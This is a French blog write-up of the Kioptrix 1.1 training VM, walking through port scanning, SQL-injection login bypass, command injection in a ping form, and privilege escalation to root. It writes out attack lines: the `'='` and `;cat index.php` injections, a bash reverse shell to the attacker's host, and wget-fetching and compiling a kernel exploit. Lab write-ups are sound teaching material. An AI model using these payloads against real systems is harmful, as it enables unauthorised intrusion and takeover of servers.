 ```yaml
---
layout: post
title: Writeup Kioptrix 1.1 , Lvl 2
---
```


![pwn]({{ site.baseurl }}/images/kiopitrix-1-1/pwn.jpeg){:class="img-responsive"}

Comme toujours, la première étape d'une analyse de vulnérabilités consiste à faire un scan des ports de la machine que l'on souhaite attaquer :

```
Nmap scan report for 192.168.122.184
Host is up (0.018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
```

Ici on voit que plusieurs ports sont ouverts, débutons par une analyse rapide de ceux qui sont les plus intéressants.

Sur le port 80 tourne une application web qui demande un login et un mot de passe :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img1.png){:class="img-responsive"}

On sait grâce au scan que tourne une base de données sur le serveur, tentons alors une injection SQL en plaçant `'='` dans chacun des champs :

> Voici un lien qui m'a servis de référence : http://www.bases-hacking.org/sql-injection.html

![]({{ site.baseurl }}/images/kiopitrix-1-1/img2.png){:class="img-responsive"}

Comme on le voit, une redirection immédiate a  lieu vers ce qui semble être une application permettant de faire un ping vers une IP.

Ping étant une commande bash, il doit forcément y avoir un moyen de passer des commandes la dedans :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img3.png){:class="img-responsive"}

Ici, on a réussi à injecter une commande en écrivant `;cat index.php` dans le formulaire.
Le **;** permet en bash d'exécuter une commande à la suite de l'autre sous la forme d'une séquence.

Vérifions sous quel utilisateur nous exécutons les commandes et quel est la version de l'OS du serveur :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img4.png){:class="img-responsive"}

Nous sommes donc ici identifié en tant qu'apache qui est l'utilisateur du serveur web du même nom. Pour rappel nous devons ici obtenir les droits root sur la machine pour valider l'exercice. 

On voit ici que la version du noyaux est assez ancienne, essayons de trouver une faille dans ce dernier :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img5.png){:class="img-responsive"}


Reste maintenant à trouver un moyen d'exécuter un shell interactif pour lancer l'exploit.
Pour se faire on va exploiter un [reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Notre choix va se porter ici sur un reverse shell bash qui ressemble à ceci :

```
bash -i >& /dev/tcp/IP_To_Connect/Port_To_Connect 0>&1
```
Du coté de notre machine on va simplement lancer **netcat** en mode interactif :

```
sudo nc -lvp 666
```
Sur l'application web, on lance le reverse shell :

```
; bash -i >& /dev/tcp/192.168.122.1/666  0>&1
```
Voici ce que l'on obtiens :

```
Listening on [0.0.0.0] (family 0, port 666)
Connection from [192.168.122.184] port 666 [tcp/*] accepted (family 2, sport 32813)
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ 
```
On a donc un shell exécuté avec l'user **apache**, utilisons notre exploit :

Sur notre machine on va utiliser un serveur web basique en python qui atteint les fichiers du répertoire courant (il est disponible par défaut):

```
wget https://www.exploit-db.com/download/9542.c
sudo python -m SimpleHTTPServer 80
```

Côté serveur on va faire récupérer et compiler l'exploit avant de l'exécuter:

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.122.1/9542.c
--22:42:29--  http://192.168.122.1/9542.c
           => `9542.c.1'
Connecting to 192.168.122.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,674 (2.6K) [text/plain]
    0K ..                                                    100%   42.50 MB/s
22:42:29 (42.50 MB/s) - `9542.c.1' saved [2674/2674]
bash-3.00$ gcc -o exp 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id 
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```

Bingo ! Nous sommes root sur la machine !

## Conclusion : 

Pour conclure, on peut dire que cette machine virtuelle nous met en situation réaliste de test d'intrusion. Les failles sont certes éxagerées de par l'ancienneté de l'OS et de ses applicatifs mais on prend en main un workflow de test d'intrusion réaliste. 

Il existe certainement d'autres failles sur cette machine virtuelle, si je les trouve j'en ferais part ici. 
